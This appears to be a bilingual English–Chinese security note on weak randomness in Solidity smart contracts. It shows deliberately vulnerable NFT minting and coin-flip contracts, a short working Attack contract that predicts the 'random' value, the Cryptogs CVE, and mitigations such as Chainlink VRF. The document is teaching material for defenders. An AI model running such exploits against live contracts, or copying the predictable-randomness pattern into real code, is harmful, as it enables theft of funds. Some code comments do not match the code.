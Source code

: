 ```yaml
---
title:Weak Randomnes
---
```


# Description

Weak PRNG due to a modulo on block.timestamp , now or blickhash.

These can be infulences by miners to some extent so they shoude be avoided.

Many Dapp are using Randomness , such as NFT , GameFi.

But due to everything on BlockChain are public and deterministic . Solidity does not have function to generate RandomNumbers. So many Developers are using some hash function to generate RandomNumbers like blockhash() and keccak256().

# Examples

## E-1

### Code

```solidity
 contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当输入的 luckyNumber 等于随机数时才能mint
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

### Observation

with quickly look , we can find the luckMint() take a number as the argument ，if `randomNumber == luckyNumber`  , users can mint `NFT`.

Because it use `blockhash` and `block.timestamp` . Attacker can easily guess the LuckNumber.

### Attack

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Prev calculate
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Attack
        nftAddr.luckyMint(luckyNumber);
    }
}
```

## E-2 TimeManipulation

The block timestamp is a uint64 value contained in the Ethereum block header, representing the UTC timestamp (in seconds) when the block was created. Before The Merge, Ethereum adjusted block difficulty based on computing power, so the block time was variable, averaging 14.5 seconds per block, and miners could manipulate the block time. After The Merge, the interval was changed to a fixed 12 seconds per block, and validators were no longer able to manipulate the block time.

In Solidity, developers can access the current block's timestamp by using the global variable `block.timestamp`, which is a uint256 type.

### Code

```solidity
contract TimeMnipulation is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当区块时间能被7整除时才能mint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## E-3

```solidity
function randomNumber() public view returns (uint) {
    return uint(keccak256(abi.encodePacked(block.difficulty))) % 10;
}
```

## E-4 Real Attack on Cryptogs

[Cryptogs](https://cryptogs.io/) is the game of pogs on the Ethereum blockchain. It is a kind of game of slap-match. This game generates random numbers using `blockhash(uint blockNumber)` to decide the winner. In Solidity, `blockhash(uint blockNumber)` function returns ‘0’ when `blockNumber` is older than 256 blocks from the current block(`block.number`). Cryptogs doesn’t check the `blockNumber` whether it is too old or not, so attackers can predict the random numbers and always win.

Code：

There are two functions generating random numbers: `endCoinFlip()` and `throwSlammer()`. Both functions required preliminary functions: `startCoinFlip()` and `raiseSlammer()`.

First, let’s check `startCoinFlip()` and `endCoinFlip()`. The two functions decide who goes first.

![alt text](Untitled.png)

[Attack on Pseudo-random number generator(PRNG) used in Cryptogs, an Ethereum (CVE-2018–14715)](https://medium.com/coinmonks/attack-on-pseudo-random-number-generator-prng-used-in-cryptogs-an-ethereum-cve-2018-14715-f63a51ac2eb9)

## E-6 Ethernaut::CoinFlip

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

我们只需要实现和CoinFlip中一样的逻辑就可以了，因为在整个过程都发生在一个tx中所以 `block.hash` 和 `block.number` 是相同的。

# Mitigation

- 我们通常使用预言机项目提供的链下随机数来预防这类漏洞。
- 在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。合并之后，以太坊改为固定 12s 一个区块，并且验证节点不能操纵区块时间。因此这类攻击不会在以太坊上发生，但仍可能在其他公链中遇到。
- 1. Utilize decentralized randomness beacons like Chainlink’s VRF.